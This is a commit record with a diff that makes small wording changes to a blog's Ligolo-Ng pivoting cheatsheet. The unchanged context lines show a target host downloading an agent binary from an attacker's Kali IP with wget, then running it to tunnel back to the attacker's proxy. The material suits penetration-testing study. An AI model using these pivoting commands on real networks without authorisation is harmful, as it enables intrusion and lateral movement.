

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1480 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -32,7 +32,7 @@
 ```
 
 # Basic Pivot
-Move the agent file into the pivot host
+Move the agent file into the pivot host:
 ```shell
 # On Kali
 sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
@@ -40,7 +40,7 @@
 # On Target
 wget http://<kali_ip>:443/agent
 ```
-Set up Ligolo-Ng on Kali
+Set up Ligolo-Ng on Kali:
 ```shell
 # Create an interface
 sudo ip tuntap add user Vorkharium mode tun ligolo
@@ -54,13 +54,13 @@
 # The Ligolo-Ng console will now open (We will interact with it soon)
 ```
 
-On the Pivot target, use the agent file to connect
+On the Pivot target, use the agent file to connect to our running proxy:
 ```shell
 chmod +x agent
 ./agent --connect <kali_ip>:11601 -ignore-cert
 ```
 
-Now enter the following in the Ligolo-Ng console
+Now enter the following on the Ligolo-Ng console:
 ```shell
 # Enter "session" to show the available sessions
 ligolo-ng » session
````
